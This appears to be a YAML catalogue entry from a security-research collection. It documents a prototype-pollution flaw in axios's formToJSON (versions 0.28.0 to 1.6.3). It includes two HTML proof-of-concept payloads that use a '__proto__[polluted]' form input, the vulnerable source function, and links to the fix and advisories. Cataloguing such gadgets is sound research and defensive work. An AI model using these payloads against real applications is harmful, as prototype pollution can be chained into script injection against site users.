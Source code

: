```yaml
---
description: Promise based HTTP client for the browser and node.js.
github: axios/axios
gadgets:
  v0.28.0 - v1.6.3:
    authors:
      - twitter:kevin_mizu
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - form-tag
      - name-attr
      - value-attr
      - before-func-call
    pocs:
      - description: The `formToJSON` method from [Axios](https://github.com/axios/axios) was vulnerable to prototype pollution. In the initial example, the form selector is hijacked via the id attribute.
        code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/axios/1.6.3/axios.js"></script>

          <!-- user input -->
          <form id="f">
            <input name="__proto__[polluted]" value="1">
          </form>

          <script>
            axios.post("/", document.getElementById("f"), {
              "headers": { "Content-Type": "application/json" }
            });
            // axios.formToJSON(document.getElementById("f"));
            alert(({}).polluted); // 1
          </script>
      - description: Another way to hijack the form is through the `form` attribute.
        code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/axios/1.6.3/axios.js"></script>
          <form id="f">
            <!-- [...] -->
          </form>

          <!-- user input -->
          <input form="f" name="__proto__[polluted]" value="1">

          <script>
            axios.post("/", document.getElementById("f"), {
              "headers": { "Content-Type": "application/json" }
            });
            // axios.formToJSON(document.getElementById("f"));
            alert(({}).polluted); // 1
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/axios/axios/blob/b15b918d179900e7d47a08f4e96efc89e16d8a7b/lib/helpers/formDataToJSON.js#L49">https://github.com/axios/axios/blob/b15b918d179900e7d47a08f4e96efc89e16d8a7b/lib/helpers/formDataToJSON.js#L49</a>

      ```javascript
      function formDataToJSON(formData) {
        function buildPath(path, value, target, index) {
          let name = path[index++];
          const isNumericKey = Number.isFinite(+name);
          const isLast = index >= path.length;
          name = !name && utils.isArray(target) ? target.length : name;

          if (isLast) {
            if (utils.hasOwnProp(target, name)) {
              target[name] = [target[name], value];
            } else {
              target[name] = value;
            }

            return !isNumericKey;
          }

          if (!target[name] || !utils.isObject(target[name])) {
            target[name] = [];
          }

          const result = buildPath(path, value, target[name], index);

          if (result && utils.isArray(target[name])) {
            target[name] = arrayToObject(target[name]);
          }

          return !isNumericKey;
        }

        if (utils.isFormData(formData) && utils.isFunction(formData.entries)) {
          const obj = {};

          utils.forEachEntry(formData, (name, value) => {
            buildPath(parsePropPath(name), value, obj, 0);
          });

          return obj;
        }

        return null;
      }
      ```
    links:
      - https://github.com/axios/axios/pull/4735
      - https://github.com/axios/axios/commit/3c0c11cade045c4412c242b5727308cff9897a0e
      - https://security.snyk.io/vuln/SNYK-JS-AXIOS-6144788
      - https://mizu.re/post/intigriti-january-2024-xss-challenge
---
```

